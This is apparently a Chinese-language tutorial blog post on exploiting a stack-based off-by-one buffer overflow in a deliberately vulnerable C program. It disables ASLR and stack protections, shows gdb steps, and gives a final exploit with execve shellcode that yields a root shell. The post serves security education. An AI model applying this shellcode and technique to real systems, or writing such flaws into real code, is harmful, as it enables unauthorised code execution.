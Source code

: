 ```yaml
---
layout: post
title: 基于栈的Off-By-One漏洞
excerpt: "sploitfun系列教程之1.3基于栈的Off-By-One漏洞"
categories: [sploitfun系列教程]
comments: true
---
```


#### 什么是off by one？
将源字符串复制到目标缓冲区可能会导致off by one

1. 源字符串长度等于目标缓冲区长度。

当源字符串长度等于目标缓冲区长度时，单个NULL字节将被复制到目标缓冲区上方。这里由于目标缓冲区位于堆栈中，所以单个NULL字节可以覆盖存储在堆栈中的调用者的EBP的最低有效位（LSB），这可能导致任意的代码执行。

漏洞代码：
```
//vuln.c
#include <stdio.h>
#include <string.h>

void foo(char* arg);
void bar(char* arg);

void foo(char* arg) {
 bar(arg); /* [1] */
}

void bar(char* arg) {
 char buf[256];
 strcpy(buf, arg); /* [2] */
}

int main(int argc, char *argv[]) {
 if(strlen(argv[1])>256) { /* [3] */
  printf("Attempted Buffer Overflow\n");
  fflush(stdout);
  return -1;
 }
 foo(argv[1]); /* [4] */
 return 0;
}
```
编译：
```
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -o vuln vuln.c -m32 -g	#注意加上-m32 ，64位的mpreferred-stack-boundary是4到12之间
chmod 777 vuln
```
上述漏洞代码注释的第[2]部分是可能发生off by one溢出的地方。目标缓冲区长度为256，因此长度为256字节的源字符串可能导致任意代码执行。

#### 如何执行任意代码执行？

使用称为“EBP覆盖”的技术实现任意代码执行。如果调用者的EBP位于目标缓冲区之上，则在strcpy之后，单个NULL字节将覆盖调用者EBP的LSB。



#### 堆栈布局（这个图是低地址在下，高地址在上！！注意）

![Image text](https://raw.githubusercontent.com/snappyJack/snappyjack.github.io/master/img/stack_off_by_one.png)

当我们已经知道256字节的用户输入，用空字节可以覆盖foo的EBP的最低一个字节(LSB)。所以当foo的存储在目标缓冲区“buf”之上的EBP被一个NULL字节所覆盖时，ebp从0xbffff2d8变为0xbffff200。从堆栈布局我们可以看到堆栈位置0xbffff200是目标缓冲区“buf”的一部分，由于用户输入被复制到该目标缓冲区，攻击者可以控制这个堆栈位置（0xbffff200），因此他控制指令指针（eip ）使用他可以实现任意代码执行。让我们通过发送一系列256的“A”来测试它。

**测试步骤1：EBP是否覆盖，从而可能覆盖返回地址？**

```bash
gdb vuln
gdb-peda$ r `python -c 'print "A"*256'`
gdb-peda$ p/x $eip
```
结果
```shell
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
gdb-peda$ p/x $eip
$1 = 0x41414141
```
**测试步骤2：距离目标缓冲区的偏移是多少？**
```shell
r `python -c 'print "A"*212 + "C"*4+ "A"*40'`

```

#### 最终exp
查看buf变量地址
```shell
gdb-peda$ p &buf
$3 = (char (*)[256]) 0xffffd430
```
最终exp
```shell
gdb vuln
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
```
结果
```shell
gdb-peda$ r `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
Starting program: /root/sploitfun/vuln `python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+"A"*187 + "\x30\xd4\xff\xff"+ "A"*40'`
process 16943 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# 
```